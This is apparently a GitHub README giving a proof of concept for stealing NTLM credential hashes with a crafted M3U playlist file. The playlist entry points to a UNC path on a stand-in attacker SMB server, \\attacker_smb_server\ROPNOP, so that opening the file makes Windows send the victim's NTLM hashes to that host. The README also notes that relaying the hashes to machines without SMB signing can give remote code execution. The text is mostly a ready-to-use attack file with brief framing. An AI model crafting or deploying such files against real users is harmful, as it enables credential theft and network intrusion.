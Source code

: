 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .




Tested on windows 7  “all player"


PoC :

#EXTM3U
#EXTINF:-1,leak_it_please

\\attacker_smb_server\ROPNOP

Save it as m3u extention.

![Alt text](https://raw.githubusercontent.com/kofa2002/NTLM-THEFT/master/Screenshot%20from%202019-05-04%2008-11-15.png" NTLM Leaked")


Author : Soufian El Hachmi
